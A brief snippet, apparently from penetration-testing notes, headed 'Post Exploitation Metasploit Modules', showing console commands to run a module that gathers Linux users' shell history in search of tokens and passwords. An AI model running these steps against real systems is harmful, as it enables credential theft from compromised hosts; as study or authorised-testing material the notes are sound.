 #### Post Exploitation Metasploit Modules
> Enumerate users history . Sometime there may be tokens, password for various services in the history file.
```
background
use post/linux/gather/enum_users_history
set SESSION 1
run

``
